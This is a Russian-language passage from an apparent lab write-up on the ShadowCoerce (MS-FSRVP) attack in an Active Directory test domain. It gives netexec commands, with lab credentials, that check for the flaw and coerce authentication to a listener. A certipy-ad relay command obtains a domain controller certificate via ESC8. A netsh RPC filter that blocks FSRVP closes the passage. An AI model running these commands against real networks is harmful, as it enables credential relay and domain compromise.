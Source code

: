 Злоумышленник может проверить наличие уязвимости следующим образом.

```
netexec smb essos.local -u 'jorah.mormont' -p 'H0nnor!' -d essos.local -M shadowcoerce
```

![](/images/coerce/Pasted%20image%2020250109230323.png)

Злоумышленник может выполнить NTLM relay to AD CS HTTP endpoints (ESC8) и получить сертификат уязвимого контроллера домена meereen.

```
netexec smb meereen.essos.local -u 'jorah.mormont' -p 'H0nnor!' -d essos.local -M shadowcoerce -o LISTENER=192.168.56.200
certipy-ad relay -target 192.168.56.23 -debug -timeout 20 -template 'DomainController'
```

![](/images/coerce/Pasted%20image%2020250109225624.png)

#### Решение

Блокировка MS_FSRVP с использованием фильтров RPC

Сначала создайте файл с именем `block_fsrvp.txt`и поместите в него следующее содержимое:

```
rpc
filter
add rule layer=um actiontype=block
add condition field=if_uuid matchtype=equal data=a8e0653c-2744-4389-a61d-7373df8b2292
add filter
quit
```

Затем импортируйте фильтр с помощью следующей команды из командной строки с повышенными привилегиями:  
`netsh -f block_fsrvp.txt`

Текущие фильтры можно просмотреть, выполнив следующую команду:  
`netsh rpc filter show filter`.
